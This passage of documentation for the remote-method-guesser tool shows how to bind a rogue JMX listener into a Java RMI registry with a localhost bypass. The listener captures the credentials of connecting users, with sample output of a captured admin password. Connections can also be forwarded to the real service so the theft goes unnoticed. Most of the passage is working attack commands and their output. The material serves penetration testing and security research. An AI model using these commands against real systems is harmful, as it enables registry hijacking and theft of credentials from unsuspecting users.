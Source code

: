Using the ``bind`` and ``rebind`` operations you can inject this listener into an *RMI registry* and wait for other
users connecting to your server:

```console
[qtc@devbox ~]$ rmg bind 172.17.0.2 9010 172.17.0.1:4444 jmxrmi --bind-objid '[6633018:17cb5d1bb57:-7ff8, -8114172517417646722]' --localhost-bypass
[+] Binding name jmxrmi to javax.management.remote.rmi.RMIServerImpl_Stub
[+]
[+] 	Encountered no Exception during bind call.
[+] 	Bind operation was probably successful.

[qtc@devbox ~]$ jconsole # Connect to 172.17.0.2:9010 with credentials
```

Incoming connections are logged by the listener:

```console
[qtc@devbox ~]$ rmg roguejmx 172.17.0.1 4444
[+] Statring RogueJMX Server on 172.17.0.1:4444
[+] 	--> Assigned ObjID is: [6633018:17cb5d1bb57:-7ff8, -8114172517417646722]
[+]
[+] Got incoming call for newClient(...)
[+] 	Username: admin
[+] 	Password: s3crEt!
```

*remote-method-guesser* uses the *ObjID* value ``[6633018:17cb5d1bb57:-7ff8, -8114172517417646722]`` by default for *bind* operations
and the rouge *JMX* server. Specifying the *ObjID* manually as shown above is therefore not necessary. You can change the default
*ObjID* value either via command line arguments or within *remote-method-guesser's* configuration file.

The rogue *JMX* server returns an access exception (invalid credentials) for each incoming connection by default, but
you can also forward incoming connections to a different *JMX* instance. This makes it possible to obtain credentials
from incoming client connections without disrupting any services. To forward connections, you have to specify the
corresponding target as an additional argument. Targets can be specified in two different ways:

1. The IP address and port of an RMI registry together with the bound name of the corresponding *JMX instance*:
  ```console
  [qtc@devbox ~]$ rmg roguejmx 172.17.0.1 4444 --forward-host 172.17.0.2 --forward-port 9010 --forward-bound-name jmxrmi 
  [+] Statring RogueJMX Server on 172.17.0.1:4444
  [+] 	--> Assigned ObjID is: [6633018:17cb5d1bb57:-7ff8, -8114172517417646722]
  [+] 	--> Forwarding connections to: 172.17.0.2:9010:jmxrmi
  [+]
  ```

2. The IP address and port of the *JMX* service itself together with it's *ObjID* value:
  ```console
  [qtc@devbox ~]$ rmg roguejmx 172.17.0.1 4444 --forward-host 172.17.0.2 --forward-port 41001 --forward-objid '[-40935072:17cd9fc77c4:-7ff8, 6731522247396892423]'
  [+] Statring RogueJMX Server on 172.17.0.1:4444
  [+] 	--> Assigned ObjID is: [6633018:17cb5d1bb57:-7ff8, -8114172517417646722]
  [+] 	--> Forwarding connections to: 172.17.0.2:41001:[-40935072:17cd9fc77c4:-7ff8, 6731522247396892423]
  [+]
  ```
